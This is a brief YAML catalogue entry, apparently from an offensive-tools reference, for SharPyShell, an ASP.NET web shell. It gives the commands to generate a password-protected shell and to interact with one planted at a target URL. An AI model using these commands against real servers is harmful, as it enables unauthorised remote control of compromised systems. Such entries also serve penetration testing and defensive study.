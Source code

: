 ```yaml
---
functions:
  shell:
    - description: Communicate with an asp(x) shell
      code: |
        Generate:
            python SharPyShell.py generate -p 'somepassword'
        Interact:
            python SharPyShell.py interact -u 'http://target.url/sharpyshell.aspx' -p 'somepassword'
resources: |
  https://github.com/antonioCoco/SharPyShell
---
```


